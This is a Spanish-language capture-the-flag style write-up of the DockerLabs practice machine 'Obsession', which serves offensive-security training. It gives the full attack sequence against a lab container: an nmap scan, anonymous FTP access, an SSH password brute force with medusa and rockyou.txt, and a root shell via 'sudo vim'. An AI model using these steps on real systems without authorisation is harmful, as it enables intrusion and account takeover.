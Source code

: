 ```yaml
---
layout: post
title: "Obsession"
date: 2024-07-27 14:10:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Obsession </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/obsession/host.png){:.margin}

**1\.** Escaneando los puertos de la maquina.

`sudo nmap -p- --open -T5 --min-rate=5000 -sS -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/obsession/nmap.png){:.margin}

**2\.** En la web podemos encontrar algunas pistas, por ejemplo podria tener el usuario russoski que se menciona en muchas partes.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/obsession/80.png){:.margin}
![img](/notas/public/img/dockerlabs/obsession/80code.png){:.margin}

**3\.** Accedo al ftp com anonymous, hay dos archivos los descargo y en uno de ellos se puede confirmar la existencia del usuario russoski y otra que es gonza. 

`ftp 172.17.0.2`

`dir`

`get chat-gonza.txt pendientes.txt`

`cat chat-gonza.txt`

![img](/notas/public/img/dockerlabs/obsession/ftp.png){:.margin}

![img](/notas/public/img/dockerlabs/obsession/cattxt.png){:.margin}

**4\.** Haciendo fuerza bruta al ssh usuario russoski.

`medusa -h 172.17.0.2 -u russoski -P /usr/share/wordlists/rockyou.txt -M ssh -t10 -f | grep SUCCESS`

![img](/notas/public/img/dockerlabs/obsession/medusa.png){:.margin}

**5\.** Me conecto por ssh como russoski.

`ssh russoski@172.17.0.2`

![img](/notas/public/img/dockerlabs/obsession/sshrussoski.png){:.margin}

**6\.** viendo los permisos sudo del usuario, veo que puedo ejecutar un binario como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/obsession/sudol.png){:.margin}

**7\.** Obteniendo el usuario root,[gtfobins](https://gtfobins.github.io/gtfobins/vim/#sudo).

`sudo vim -c ':!/bin/sh'`

![img](/notas/public/img/dockerlabs/obsession/root.png){:.margin}


<br>

<a href="#">_Finalizado._</a>
